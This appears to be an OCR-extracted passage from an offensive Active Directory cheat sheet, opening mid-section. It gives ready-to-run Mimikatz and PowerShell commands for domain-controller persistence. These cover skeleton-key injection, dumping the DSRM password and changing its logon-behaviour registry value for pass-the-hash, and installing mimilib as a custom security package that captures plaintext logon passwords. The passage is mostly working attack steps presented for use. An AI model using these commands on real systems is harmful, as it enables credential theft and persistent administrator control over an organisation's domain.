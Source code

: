 #Exploitation Command runned as DA:

Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <DC's FQDN>

#Access using the password "mimikatz"

Enter-PSSession -ComputerName <AnyMachineYouLike> -Credential <Domain>\Administrator

### DSRM Abuse

*WUT IS DIS?: Every DC has a local Administrator account, this accounts has the DSRM password which is a SafeBackupPassword. We can get this and then pth its NTLM hash to get local Administrator access to DC!*

#Dump DSRM password (needs DA privs):

Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -ComputerName <DC's Name>

#This is a local account, so we can PTH and authenticate!

#BUT we need to alter the behaviour of the DSRM account before pth:

#Connect on DC:

Enter-PSSession -ComputerName <DC's Name>

#Alter the Logon behaviour on registry:

New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -PropertyType DWORD -Verbose

#If the property already exists:

Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehaviour" -Value 2 -Verbose

Then just PTH to get local admin access on DC!

### Custom SSP

*WUT IS DIS?: We can set our on SSP by dropping a custom dll, for example mimilib.dll from mimikatz, that will monitor and capture plaintext passwords from users that logged on!*

From powershell:

#Get current Security Package:

$packages = Get-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -

Name 'Security Packages' | select -ExpandProperty 'Security Packages'

#Append mimilib:

$packages += "mimilib"

#Change the new packages name

Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\OSConfig\" -Name 'Security Packages' -Value $packages

Set-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name 'Security Packages' -Value $packages
